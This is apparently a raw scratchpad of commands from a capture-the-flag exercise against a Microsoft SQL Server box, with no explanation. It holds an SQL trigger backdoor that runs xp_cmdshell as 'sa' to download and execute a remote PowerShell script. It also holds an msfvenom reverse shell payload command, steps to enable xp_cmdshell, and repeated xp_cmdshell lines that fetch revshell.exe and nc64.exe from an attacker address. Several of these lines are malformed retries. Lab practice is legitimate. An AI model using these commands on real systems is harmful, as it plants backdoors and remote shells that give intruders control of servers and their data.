 CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://10.17.59.71:8000/evilscript.ps1'')"';


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.59.71 LPORT=4444 -f exe -o revshell.exe

python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.92.34 -windows-auth

xp_cmdshell "powershell -c Invoke-WebRequest http://10.17.59.71:8000/revshell.exe -Outfile C:\Users\sql_svc\Downloads\revshell.exe"

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.17.59.71:8000/revshell.exe -O C:\Users\sql_svc\Downloads\revshell.exe"

xp_cmdshell "powershell -c Invoke-WebRequest -Uri "http://10.17.59.71:8000/revshell.exe -OutFile "C:\windows\system32\revshell.exe""

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.17.59.71:8000/revshell.exe -outfile revshell.exe"

Invoke-WebRequest -Uri "http://10.17.59.71:8000/" -OutFile "C:\Users\sql_svc\Downloads\revshell.exe"

xp_cmdshell "powershell -c "

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; Invoke-WebRequest -Uri "http://10.17.59.71:8000/" -OutFile "C:\Users\sql_svc\Downloads\revshell.exe""

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.17.59.71:8000/revshell.exe -outfile revshell.exe"

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.17.59.71:8000/nc64.exe -outfile nc64.exe"

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.17.59.71/nc64.exe -outfile nc64.exe"

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.17.59.71/nc64.exe\");"


python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth


enable_xp_cmdshell
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
